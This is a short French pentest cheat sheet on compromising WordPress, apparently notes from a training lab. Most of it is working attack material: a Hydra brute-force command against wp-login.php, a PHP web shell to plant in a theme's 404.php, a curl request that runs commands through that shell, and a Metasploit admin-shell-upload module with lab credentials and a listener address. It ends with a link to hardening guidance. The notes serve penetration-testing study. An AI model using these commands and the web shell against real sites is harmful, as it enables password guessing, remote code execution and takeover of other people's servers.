 ### HTTP POST FORM avec Hydra

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt <ip> -s <port> http-post-form "/wp-login.php:username=^USER^&password=^PASS^:F=Invalid credentials" -I -f -V
```

## PLUGIN VULNERABLE

Chercher CVEs et tester

## RCE THEME EDITOR

Tester RCE avec shell PHP ( Modifier 404.php par exemple)

```php
<?php system($_REQUEST['bb58021f870b5f85c6c24120540de43f']); ?>
```


```bash
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?bb58021f870b5f85c6c24120540de43f=id"
```

## AUTOMATISATION AVEC METASPLOIT

Dans metasploit

```msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
```

```shell-session
set rhosts blog.inlanefreight.com
```

```shell-session
set username admin
```

```shell-session
set password Winter2020
```

```shell-session
set lhost 10.10.16.8
```

```shell-session
run
```


# HARDENING WORDPRESS

https://developer.wordpress.org/advanced-administration/security/hardening/
